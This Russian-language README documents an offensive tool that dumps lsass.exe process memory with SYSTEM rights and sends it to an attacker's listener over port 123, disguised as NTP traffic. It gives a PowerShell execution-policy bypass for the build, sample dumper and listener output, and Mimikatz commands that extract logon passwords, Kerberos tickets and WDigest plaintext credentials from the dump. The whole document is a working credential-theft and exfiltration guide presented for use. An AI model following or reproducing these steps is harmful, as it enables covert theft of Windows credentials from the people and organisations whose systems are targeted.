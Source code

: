 ## Установка и компиляция
### Windows (PowerShell)
Если вы используете Visual Studio Code или другую настроенную среду:
1. Откройте окно PowerShell и выполните:
   Set-ExecutionPolicy Bypass -Scope Process -Force; ./run.ps1
   Этот скрипт компилирует memdump.c, подключая необходимые библиотеки.

## Использование
1. Запустите дампер
   На Windows выполните:
   .\memdump.exe
   Введите IP адрес и порт получателя для эксфильтрации.
   Приложение должно запускаться с правами SYSTEM, чтобы получить доступ к памяти процесса.

2. Запустите слушателя
   На машине атакующего запустите:
   python3 server.py
   Скрипт слушаетпорт 123 NTP, собирает входящие фрагменты, декомпрессирует дамп памяти и сохраняет его в виде файла dump_memory.bin.

### Дампинг

[*] Введите IP получателя: 192.168.1.100
[*] Введите порт получателя: 123
[+] Расшифрован целевой процесс: lsass.exe
[+] Процесс lsass.exe найден с PID 1234
[+] Дамп памяти завершен. Размер: 16 МБ.
[+] Сжатие завершено. Сжатый размер: 512 КБ.
[+] Заголовок отправлен: 128 фрагментов, 512 КБ в сумме.
[+] Пакет с данными для фрагмента 1 из 128 отправлен.
[+] Передача завершена.

### Слушатель

[INFO] Прослушивание на 0.0.0.0:123 (общий таймаут: 30 сек)
[INFO] Заголовок получен: 128 фрагментов, 512 КБ сжатого размера.
[INFO] Получение пакетов...
[Восстановление] [========------] 50% (64/128)
[INFO] Все фрагменты получены.
[INFO] Декомпрессия...
[INFO] Дамп сохранен как dump_memory.bin.

## Анализ дампа с помощью Mimikatz
После получения файла dump_memory.bin используйте Mimikatz для извлечения информации:
- Скачайте Mimikatz:  
- Запустите Mimikatz:  
- Загрузите и проанализируйте дамп памяти: 
  mimikatz # sekurlsa::minidump dump_memory.bin
  mimikatz # sekurlsa::logonpasswords
  Первая команда загружает дамп памяти.
  Вторая команда извлекает и отображает учетные данные логонов.
- Извлечение дополнительной информации:
  mimikatz # sekurlsa::tickets
  mimikatz # sekurlsa::wdigest
  Команда sekurlsa::tickets извлекает Kerberos.
  Команда sekurlsa::wdigest извлекает данные в открытом виде, хранящиеся в WDigest.
